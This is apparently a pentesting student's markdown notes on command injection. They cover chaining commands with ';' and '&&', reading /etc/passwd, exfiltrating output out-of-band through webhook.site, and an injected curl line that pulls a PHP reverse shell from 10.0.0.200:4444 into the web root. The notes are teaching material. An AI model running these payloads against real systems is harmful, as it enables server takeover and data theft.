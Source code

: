### Command Injection

https://appsecexplained.gitbook.io - a solid resource for for many things (not just command injection).  Has some quick exploitation checks to use.  

You can use `;` to end commands and move to a second command  
You can use `#` to comment out the rest of a command  

Among other things.  Check the link above and also do some google searches in order to find others.  

When returning items such as `cat etc/passwd` and/or `ls -lah` and you get it all in a not so readable mess, look at the page source (ctrl + u) and it will all be listed there in a nice readable format.

If you are able to get command injection, next step might be to try and pop a shell.  We'll always want to try and use the full path `/bin/bash/<script>` or `usr/local/bin/php/<script>` or otherwise.  If the first one doesn't work then try something else.

Using `which php` and `which python` and the like can tell you what other services are running.  This will also give you the full paths that you need for your script.

There are times that you will have out-of-band injection.  It's out of band because in order to see what the return is, we need to catch it in another location, such as https://webhook.site.  
&ensp;For instance, we might have a command injection where we enter the following command  
	```  
	https://webhook.site/<random site number that gets spit out>?`whoami`  
	```  
&ensp;This (with the included ? and command in backticks (tilde with no shift)) could return a result with the command run in your webhook.site site.  

You can also try to get a new line of command to execute, for example:  
	![pic1](Images/pic1.png)  
&ensp;&ensp;Put in the screen shot as the \\ character would not show up for whatever reason but you would use that \\n to create a new line and run a separate command.  
&ensp;This is an old style.  A new one was added to the video  
&ensp;&ensp;`https://tcm-sec.com && curl 10.0.0.200:4444/rev.php > /var/www/html/rev.php`  
&ensp;&ensp;&ensp;This command will check the website but will also `&&` run the curl command and save the output to `>` the location `/var/www/html/rev.php` so that we can go in and call that website to trigger the shell by going to `thesite.com/rev.php`  
